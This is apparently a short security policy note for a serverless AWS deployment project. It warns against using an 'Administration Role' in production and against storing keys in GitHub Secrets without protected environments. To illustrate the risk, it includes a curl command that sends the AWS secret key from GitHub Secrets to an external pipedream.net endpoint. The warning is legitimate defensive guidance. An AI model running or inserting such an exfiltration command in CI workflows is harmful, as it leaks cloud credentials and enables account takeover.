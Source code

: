 # Serverless Deployment Policy
Sadly, the serverless documentation does not clearly mention that the **“Administration Role” should never be used in production environments**. 
Using this role can cause significant security risks. If someone gains access to these keys, 
they may be able to create a new user with access to the web console and take full control of your AWS account.

Please create pull requests if you come across new permissions such as for AWS Kinesis.

## GitHub Secrets Note
Storing keys directly in GitHub Secrets without additional security controls can lead to unauthorized access. 
Any user with commit privileges could potentially use GitHub Actions to extract these keys:

```
curl -d '{ "api-key": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

With this in mind, also avoid using the “Administration Role” for all AWS accounts and only store the keys 
in GitHub Secrets when using the GitHub Environment with the “Protected Branch” configuration.
